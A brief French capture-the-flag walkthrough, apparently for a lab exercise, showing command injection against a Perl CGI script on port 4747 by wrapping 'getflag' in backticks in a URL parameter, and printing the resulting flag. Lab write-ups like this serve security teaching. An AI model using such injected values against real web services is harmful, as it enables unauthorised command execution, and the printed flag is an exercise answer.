 # Explications
Il y a un script perl![enter image description here](https://i.imgur.com/nW9vGrf.png)
On voit que c'est un script qui s'execute en arriere-plan et qui est accessible depuis un site web(localhost:4747).
CGI Permet d'executer des programmes externe depuis un serveur web.
On va utiliser ca pour appeler getflag.
En allant sur http://192.168.1.10:4747, on accède bien au site.

Sur le script,ca demande un parametre x.

`http://192.168.1.10:4747/?x=42` affiche bien 42.

`http://192.168.1.10:4747/?x=getflag` affiche getflag

en echappant getflag avec des back-quotes 

	http://192.168.1.10:4747/?x=`getflag`
On a notre flag: ne2searoevaevoem4ov4ar8ap 